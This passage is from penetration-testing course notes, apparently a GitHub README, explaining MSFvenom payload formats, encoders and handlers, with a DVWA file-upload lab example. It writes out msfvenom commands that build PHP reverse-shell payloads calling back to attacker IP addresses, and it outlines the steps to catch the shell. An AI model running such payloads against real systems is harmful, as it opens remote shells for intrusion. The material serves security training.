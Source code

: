 You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The `msfvenom --list formats` command can be used to list supported output formats

### Encoders

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

### Handlers

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the `payload options` title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). For the exercises in this task, you will need to replicate a similar scenario on another target system, DVWA was used here for illustration purposes. The exploit steps are;

Generate the PHP shell using MSFvenom
Start the Metasploit handler
Execute the PHP shell
MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect. Seen below, 10.0.2.19 is the IP address of a Kali Linux machine used in the attack and local port 7777 was chosen.

`msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`

Please note: The output PHP file will miss the starting PHP tag commented and the end tag (?>), as seen below.

### rev_php.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Metasploit/2.%20Metasploit-Exploitation/images/rev_php.PNG)
